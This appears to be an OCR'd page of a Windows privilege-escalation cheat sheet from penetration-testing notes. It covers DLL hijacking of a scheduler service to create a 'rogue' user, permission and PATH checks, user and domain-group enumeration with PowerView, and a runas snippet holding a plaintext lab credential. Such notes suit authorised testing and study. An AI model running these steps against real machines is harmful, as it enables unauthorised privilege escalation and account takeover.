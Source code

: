 ```

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
- compile the dll
- copy myDLL.dll to same directory as scheduler.exe (C:\Scheduler\) and rename beyondhelper.dll
- go to services and restart scheduler
- confirm new user rogue was created with command:
	- `net user rogue`
- might need to restart service:
	- `net stop VulnerableService`
	- `net start VulnerableService`

Insecure File Permissions
```
accesschk.exe /accepteula -wvu "C:\Program Files"
```

Environmental Variables
```
Get-ChildItem Env:
```

```
$env:PATH.Split(';') | ForEach-Object { Get-Acl $_ }
```

Network Configuration
- `ipconfig /all`

Enumerate Users and Groups
- `net user`
- `net user Ryan.Cooper /domain`
- `net localgroup`
- `net groups "Domain Admins" /domain`

Enumerate nested groups by uploading PowerView.ps1
`. .\PowerView.ps1`
`Get-DomainGroup -MemberIdentity 'rudi.davis' | select samaccountname`
- might see groups not listed with `net groups`
`Get-DomainGroup 'Domain Admins' | select samaccountname,memberof`
- check the CN= part for nested groups

Enumerate Installed Software
```
Get-WmiObject -Class Win32_Product
```
- List installed software:

Runas when finding creds as a test (in powershell)
```
powershell
```
```
hostname
```
- use before \ in next command
```
$user = "Sniper\Chris"
```
```
$pass = "36mEAhz/B8xQ~2VM"
```
```
$secstr = New-Object -TypeName System.Security.SecureString
```
```